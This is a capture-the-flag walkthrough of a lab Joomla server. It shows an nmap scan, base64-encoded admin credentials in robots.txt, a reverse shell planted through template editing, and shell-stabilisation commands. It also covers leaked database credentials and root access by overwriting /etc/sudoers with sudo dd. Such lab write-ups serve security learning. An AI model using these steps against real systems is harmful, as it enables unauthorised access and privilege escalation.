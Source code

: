 # ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80 | HTTP |
We can get this in the scan:

```
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![Pasted image 20250306160644.png](../../IMAGES/Pasted%20image%2020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![Pasted image 20250306160959.png](../../IMAGES/Pasted%20image%2020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![Pasted image 20250306161139.png](../../IMAGES/Pasted%20image%2020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![Pasted image 20250306161614.png](../../IMAGES/Pasted%20image%2020250306161614.png)

We got administrator templates, let's check it out:



![Pasted image 20250306161640.png](../../IMAGES/Pasted%20image%2020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![Pasted image 20250306161839.png](../../IMAGES/Pasted%20image%2020250306161839.png)

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![Pasted image 20250306162017.png](../../IMAGES/Pasted%20image%2020250306162017.png)

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![Pasted image 20250306162512.png](../../IMAGES/Pasted%20image%2020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![Pasted image 20250306162629.png](../../IMAGES/Pasted%20image%2020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// InformaciÃ³n sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// CÃ³digo de conexiÃ³n a la base de datos
function connectToDatabase() {
 global $db_host, $db_user, $db_pass, $db_name;
 $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
 if ($conn->connect_error) {
 die("ConexiÃ³n fallida: " . $conn->connect_error);
 }
 return $conn;
}

// InformaciÃ³n adicional
echo "Bienvenido a Joomla en lÃ­nea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
 use_pty

User luisillo may run the following commands on ce239478bbd9:
 (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![Pasted image 20250306162918.png](../../IMAGES/Pasted%20image%2020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![Pasted image 20250306163315.png](../../IMAGES/Pasted%20image%2020250306163315.png)

Just like that we got root access.

